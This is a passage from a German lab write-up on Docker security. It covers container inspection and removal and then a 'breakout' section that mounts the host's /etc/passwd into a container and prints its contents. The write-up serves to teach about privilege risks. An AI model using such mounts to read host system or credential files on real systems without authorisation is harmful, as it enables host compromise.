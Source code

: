 - NetworkSettings

    - Zeigt die IP-Adresse, Gateway, Netzwerknamen usw. des Containers im jeweiligen Docker-Netzwerk.

    - Relevant für die Frage: Wer kann mit wem kommunizieren? → wichtige Grundlage zur Netzwerksegmentierung.

- State 
    - Zeigt, ob der Container aktiv ist, wann er gestartet wurde, ob er abgestürzt ist (z. B. durch OOM = Out Of Memory), und wann er gestoppt wurde.

    - Gut für Troubleshooting und zur Einschätzung, ob z. B. automatische Neustarts sinnvoll wären.

Diese Punkte sind wichtig, da man auf einen Blick erkennt, ob der Container unnötige Rechte besitzt oder des Erkennens von kritischen Volumes. 

### 3.4 Löschen des Containers

Nach der Analyse und Nutzung kann der Container wieder entfernt werden, um das System sauber zu halten:

```bash
it-security@host35:~$ docker rm test-container 
test-container
```
Zur Kontrolle, ob der Container wirklich entfernt wurde:

```bash
it-security@host35:~$ docker container list -a
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```

Der Container "test-container" erscheint nicht mehr in der Liste auf --> erfolgreich gelöscht.


## 4 Ausbruch

Da DockerContainer standardmäßig mit vollen Root-Rechten innerhalb des Containers laufen und der Docker-Daemon auf Host-Ebene Root-Zugriff benötigt, kann ein Nutzer mit Zugriff auf den Docker-Daemon das gesamte Hostsystem kompromittieren.

### 4.1 Lesen von Dateien auf dem Hostsystem

Wir mounten /etc/passwd vom Host in den Container und lesen die Datei aus: 

```bash
it-security@host35:~$ docker run --rm -v /etc/passwd:/tmp/passwd:ro ubuntu:latest cat /tmp/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```